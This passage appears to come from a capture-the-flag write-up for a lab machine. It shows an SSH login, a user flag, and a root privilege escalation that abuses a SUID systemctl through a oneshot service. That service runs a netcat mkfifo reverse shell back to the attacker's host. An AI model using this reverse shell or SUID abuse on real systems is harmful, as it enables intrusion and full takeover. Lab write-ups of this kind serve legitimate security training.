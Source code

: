 ```none
$ ssh -i pepper.id_rsa.tmp pepper@10.10.10.143
load pubkey "pepper.id_rsa.tmp": invalid format
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Mar  5 10:23:48 2019 from 172.16.204.1
pepper@jarvis:~$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:~$ cat user.txt 
2afa36c4f05b37b34259c93551f5c44f
```

## Privilege Escalation - Root Own (Remote Code Execution via SUID Binary)

After enumerating the system again for SUID binaries, I found the following SUID binary which was exeutable by pepper and root:

```none
$ ls -l /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
```

Using the [example](https://gtfobins.github.io/gtfobins/systemctl/) from GTFObins, I was able to abuse the root SUID permissions on `/bin/systemctl` here
by executing a oneshot service with the following script:

```bash
#!/bin/sh

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 2001 >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

The oneshot service would execute a netcat reverse shell that would connect back to my Kali machine.
I created the script above with the `vi` text editor, made it executable, and ran it:

```none
pepper@jarvis:/dev/shm$ chmod +x exploit.sh
pepper@jarvis:/dev/shm$ ./exploit.sh
Created symlink /etc/systemd/system/tmp.awugOTb7uU.service → /tmp/tmp.awugOTb7uU.service.
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.awugOTb7uU.service → /tmp/tmp.awugOTb7uU.service.

```
